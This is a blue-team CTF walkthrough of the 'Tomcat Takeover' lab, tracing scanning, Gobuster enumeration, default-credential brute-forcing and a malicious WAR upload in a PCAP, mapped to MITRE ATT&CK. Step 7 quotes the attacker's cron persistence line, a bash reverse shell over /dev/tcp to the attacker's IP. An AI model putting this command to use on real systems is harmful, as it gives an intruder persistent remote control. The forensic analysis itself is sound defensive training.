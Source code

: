 # 🔐 Tomcat Takeover - Blue Team CTF Walkthrough

## 📝 Overview

In this post, I will walk through my detailed analysis of the [**Tomcat Takeover**](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/) lab from CyberDefenders, which simulates an attack on an Apache Tomcat server. This challenge involves investigating suspicious activity using Wireshark to analyze a provided PCAP file. I will demonstrate how to identify malicious activity, track the attacker's methods, and map the findings to the MITRE ATT&CK framework.

This walkthrough covers:
- 🔍 **Scanning behavior**
- 🛠 **Brute-forcing of credentials**
- 💻 **Reverse shell uploads**
- 📌 **Establishing persistence**

By following this guide, you'll gain hands-on experience with network traffic analysis and incident response.

---

## 💼 Challenge Details

- **Provided Evidence**: A single PCAP file (~2MB) containing captured network traffic.
- **Tools Used**: Wireshark, Gobuster, CyberChef for decoding credentials.
- **Objective**: Analyze the PCAP file, identify the attacker’s actions, and answer several investigative questions.

---

## 🕵️‍♂️ Step 1: Initial Reconnaissance - Active Scanning

**Question 1: Identify the Source IP address responsible for initiating scanning behavior.**

After opening the PCAP in Wireshark, the first step was to identify which IP was responsible for the scanning activity. By using `Statistics -> Conversations -> IPv4 Statistics` and sorting by Bytes, I determined that the suspicious IP was `14.0.0.120`.
![IPv4](./images/ipv4_packets.jpg)
This IP initiated multiple sequential connections across different ports, indicative of a SYN scan.

🔧 **Wireshark Filter**: `ip.addr == 14.0.0.120 && tcp.port != 8080`

![SYN Scan](./images/SYN_scans.jpg)

- **MITRE Technique**: [T1595.002 - Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)

---

## 🌍 Step 2: Geolocating the Attacker

**Question 2: Determine the city from which the attacker’s activities originated.**

Using an IP geolocation service such as [ipgeolocation.io](https://ipgeolocation.io), I was able to geolocate the attacker's IP `14.0.0.120` to a specific city: **Guangzhou**.

![Geolocation](./images/city.jpg)

---

## 🔑 Step 3: Exploiting Weak Credentials - Valid Accounts

**Question 3: Which port provided access to the web server admin panel?**

From the PCAP file, I identified several open ports, including 80, 443, and 8080. By using `Statistics -> Conversations -> TCP`, I determined that port `8080` was the only one with HTTP traffic.

![Open Ports](./images/open_ports.jpg)

Filtering for traffic on port `8080`, I discovered that the Tomcat Manager was running on this port.

![Server_name](./images/server_name.jpg)

Filtering with `ip.src == 14.0.0.120 && http` at 18:19:33, I saw a scan with the tool **Gobuster**, which the attacker used to discover the admin panel.

![Attacker_tool](./images/attacker_tool.jpg)

- 🛠 **Tools Identified**: Gobuster for URL enumeration.
- **MITRE Technique**: [T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)

---

## 🧰 Step 4: Directory Enumeration - Attack Tools

**Questions 4 & 5: What tools did the attacker use for enumeration? & Which directory associated with the admin panel did the attacker uncover?**

The attacker used **Gobuster** to enumerate the available directories and files on the server. The tool successfully identified the `/manager/html` directory, which provided access to the Tomcat Manager panel.

![Server Page](./images/server_page.jpg)

---

## 🔐 Step 5: Brute-Forcing Credentials - Username and Password

**Question 6: What username and password did the attacker successfully use for authorization?**

Once the attacker found the Tomcat Manager page, they brute-forced the login credentials using default combinations. By analyzing the HTTP streams in Wireshark, I identified multiple failed attempts.

![Brute Force](./images/brute_force.jpg)

Using several default passwords of the Tomcat Server that you can find online the attacker tried to login:

![Brute Force_2](./images/brute_force_2.jpg)

Finally, the attacker successfully logged in:

![Successful Login](./images/success_login.jpg)

The credentials were encoded in Base64 and passed via the `Authorization` header. I used **CyberChef** to decode the Base64 string and recover the plain text credentials.

![CyberChef Decode](./images/cyberchef.jpg)

- 🔓 **Username**: `admin`
- 🔑 **Password**: `tomcat`

- **MITRE Technique**: [T1078 - Valid Accounts](https://attack.mitre.org/techniques/T1078/)

---

## 📁 Step 6: Uploading a Malicious File - Web Shell

**Question 7: What was the name of the malicious file the attacker uploaded?**

After gaining access to the Tomcat Manager, the attacker uploaded a malicious **.war** file at 18:22:14 to establish a reverse shell.

![Upload File](./images/upload_file.jpg)

By analyzing the HTTP POST requests, I identified the file name:

- **File Name**: `JXQOZY.war`

![Shell](./images/shell.jpg)

The file was successfully uploaded, and the attacker accessed it, resulting in an HTTP `200 OK` response from the server.

- **MITRE Technique**: [T1505.003 - Web Shell](https://attack.mitre.org/techniques/T1505/003/)

---

## 🕒 Step 7: Establishing Persistence

**Question 8: What specific command was scheduled to ensure persistence?**

Once the attacker gained access to the reverse shell, they created a **cron job** to maintain persistence on the server. By following the TCP stream in Wireshark, I observed the cron job creation command:

![Cron Job](./images/cron_job.jpg)

- **Command**: `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

This cron job would establish a reverse shell connection to the attacker's IP every minute, ensuring that the attacker maintained control over the compromised system.

- **MITRE Technique**: [T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)

---

## 🏁 Conclusion

The [**Tomcat Takeover**](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/) challenge provided a great opportunity to explore a simulated attack on a web server and apply practical skills in analyzing network traffic. By using Wireshark to track scanning, brute-forcing, file uploads, and persistence, I was able to map the attack stages to the MITRE ATT&CK framework.

This lab was an excellent exercise in understanding the attack lifecycle, identifying malicious activities, and applying security measures to mitigate these types of attacks in the real world.

---

### 🔎 MITRE ATT&CK Techniques Used

- **[T1595.002 - Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)**
- **[T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)**
- **[T1078 - Valid Accounts](https://attack.mitre.org/techniques/T1078/)**
- **[T1505.003 - Web Shell](https://attack.mitre.org/techniques/T1505/003/)**
- **[T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)**
